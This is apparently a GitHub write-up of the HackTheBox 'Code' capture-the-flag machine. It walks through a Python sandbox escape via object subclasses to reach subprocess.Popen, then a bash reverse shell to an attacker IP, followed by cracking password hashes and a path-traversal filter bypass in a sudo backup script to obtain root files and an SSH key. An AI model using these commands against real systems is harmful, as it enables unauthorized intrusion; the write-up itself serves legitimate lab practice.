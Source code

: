# Code CTF - HackTheBox Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Code** CTF challenge on [HackTheBox](https://app.hackthebox.com/machines/Code). 
---

we see open ports 22 and 5000 

we have some python code editor, running basic reverse shell is of course filtered 

![f](imgs/f.png "f")

so AI suggested to test varius snippets to escape the sandox or use SSTI (Server side template injection)

this command prints a list of all classes that directly inherit from Python's base object class.

```
print((1).__class__.__base__.__subclasses__())
```

![sub](imgs/sub.png "sub")

and this command defines and immediately calls an anonymous function (lambda) that returns 1, so it prints 1.

```
print((lambda: 1)()) 
```

![l](imgs/l.png "l")

This code gets all classes that directly inherit from Python's base object class, then prints each one with its index in the list.

```
subs = (1).__class__.__base__.__subclasses__()
for i, s in enumerate(subs):
    print(i, s)
```

![id](imgs/id.png "id")

we are looking for index of `subprocess.Popen`

![i](imgs/i.png "i")

now we have the correct number we can try to run reverse shell

```
().__class__.__base__.__subclasses__()[317](["/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.7/7777 0>&1"])
```

it worked we got hit and we can grab user flag

![us](imgs/us.png "us")

by lookin at the app.py we see all keywords that being filtered

![fil](imgs/fil.png "fil")

linpeas found some database.db in `/home/app-production/app/instance`

![db](imgs/db.png "db")

after grabbing the file and opening it in sqlitebrowser, we see table user in which we see some hashes

![ta](imgs/ta.png "ta")

![hs](imgs/hs.png "hs")

we can crack them using crackstation

![cr](imgs/cr.png "cr")

now we can try to login as martin

![ss](imgs/ss.png "ss")

we see sudo -l output

![sd](imgs/sd.png "sd")

we cant modify the script itself but we can supply our own file with path to backup

![b](imgs/b.png "b")

we add malicous path to task.json: `/var/....//root/`, we use ....// to bypass the simple filter and we also include /var 

![p](imgs/p.png "p")

then we need to run 

```
sudo /usr/bin/backy.sh baskups/task.json
```

![cm](imgs/cm.png "cm")

then we can unzip the files and we have root flag, in files there is also private ssh key so we also have root access

![rt](imgs/rt.png "rt")

# MACHINE PWNED
